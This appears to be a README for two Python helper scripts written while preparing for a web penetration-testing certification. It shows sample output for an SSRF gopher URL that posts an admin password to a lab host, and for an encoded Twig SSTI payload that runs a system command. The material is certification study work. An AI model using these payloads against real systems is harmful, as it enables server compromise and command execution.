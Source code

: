 # CBBH-CWES-Artifact
Some python script I made during the course of preparing for CBBH/CWES

The `gopher-manual.py` is for correctly encode the request to gopher URL scheme to send arbitrary bytes to a TCP socket `(it will automatically encode the URL twice)`.

The `SSTI-payload-encode.py` is for correctly encode the `Twig` payload to make it acceptable to a TCP socket.

Usage:

### 1. Gopeher-manual.py

You may need to manually swap the request inside the `gopher-manual.py`

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopher-manual.py
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
gopher%3A//dateserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520dateserver.htb%250D%250AContent-Length%3A%252013%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin
```

### 2. SSTI-payload-encode.py

You can either `python3 SSTI-payload-encode.py "PAYLOAD"` or `python3 SSTI-payload-encode.py "PAYLOAD" --double` for double encoding.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 SSTI-payload-encode.py "{{ ['ls /'] | filter('system') }}" 
{{%2b['ls%2b/']%2b%7c%2bfilter('system')%2b}}
```
